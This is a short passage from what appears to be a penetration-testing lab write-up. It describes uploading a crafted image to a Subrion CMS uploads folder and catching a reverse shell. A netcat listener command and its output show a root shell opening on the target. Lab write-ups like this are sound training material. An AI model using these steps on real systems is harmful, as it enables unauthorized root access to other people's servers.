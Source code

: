 Start netcat listener, upload the image.jpg file to the Subrion _/uploads_ folder, and wait for reverse shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/exfiltrated]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.163] 48238
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

```
